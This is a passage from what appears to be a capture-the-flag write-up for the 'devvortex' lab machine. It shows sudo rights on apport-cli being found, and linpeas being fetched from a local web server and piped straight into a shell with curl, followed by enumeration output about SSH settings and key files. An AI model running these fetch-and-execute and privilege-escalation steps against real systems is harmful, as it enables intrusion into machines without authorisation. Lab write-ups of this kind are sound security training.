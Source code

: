 ```bash
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli

```
NOW! we got something! 
**"User logan may run the following commands on devvortex:
(ALL : ALL) /usr/bin/apport-cli"**

so let's find exploit for
```bash 
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

```bash
python3 -m http.server 
```

```bash
curl 10.10.10.10/linpeas.sh | sh
```
Result:
```bash
User logan may run the following commands on devvortex:
  (ALL : ALL) /usr/bin/apport-cli

══════════╣ Analyzing SSH Files (limit 70)





-rw-r--r-- 1 root root 601 May  7  2020 /etc/ssh/ssh_host_dsa_key.pub
-rw-r--r-- 1 root root 173 May  7  2020 /etc/ssh/ssh_host_ecdsa_key.pub
-rw-r--r-- 1 root root 93 May  7  2020 /etc/ssh/ssh_host_ed25519_key.pub
-rw-r--r-- 1 root root 565 May  7  2020 /etc/ssh/ssh_host_rsa_key.pub

PermitRootLogin yes
ChallengeResponseAuthentication no
UsePAM yes
PasswordAuthentication yes

══╣ Possible private SSH keys were found!
/var/www/dev.devvortex.htb/libraries/vendor/phpseclib/phpseclib/phpseclib/Crypt/EC/Formats/Keys/PKCS8.php
/var/www/dev.devvortex.htb/libraries/vendor/phpseclib/phpseclib/phpseclib/Crypt/EC/Formats/Keys/PKCS1.php
/var/www/dev.devvortex.htb/libraries/vendor/phpseclib/phpseclib/phpseclib/Crypt/DH/Formats/Keys/PKCS8.php
/var/www/dev.devvortex.htb/libraries/vendor/phpseclib/phpseclib/phpseclib/Crypt/Common/Formats/Keys/PKCS8.php
/var/www/dev.devvortex.htb/libraries/vendor/phpseclib/phpseclib/phpseclib/Crypt/Common/Formats/Keys/PKCS1.php
/var/www/dev.devvortex.htb/libraries/vendor/phpseclib/phpseclib/phpseclib/Crypt/Common/Formats/Keys/OpenSSH.php
/var/www/dev.devvortex.htb/libraries/vendor/phpseclib/phpseclib/phpseclib/Crypt/DSA/Formats/Keys/PKCS8.php
/var/www/dev.devvortex.htb/libraries/vendor/phpseclib/phpseclib/phpseclib/Crypt/DSA/Formats/Keys/PKCS1.php
/var/www/dev.devvortex.htb/libraries/vendor/phpseclib/phpseclib/phpseclib/Crypt/RSA/Formats/Keys/PKCS8.php
/var/www/dev.devvortex.htb/libraries/vendor/phpseclib/phpseclib/phpseclib/Crypt/RSA/Formats/Keys/PKCS1.php
```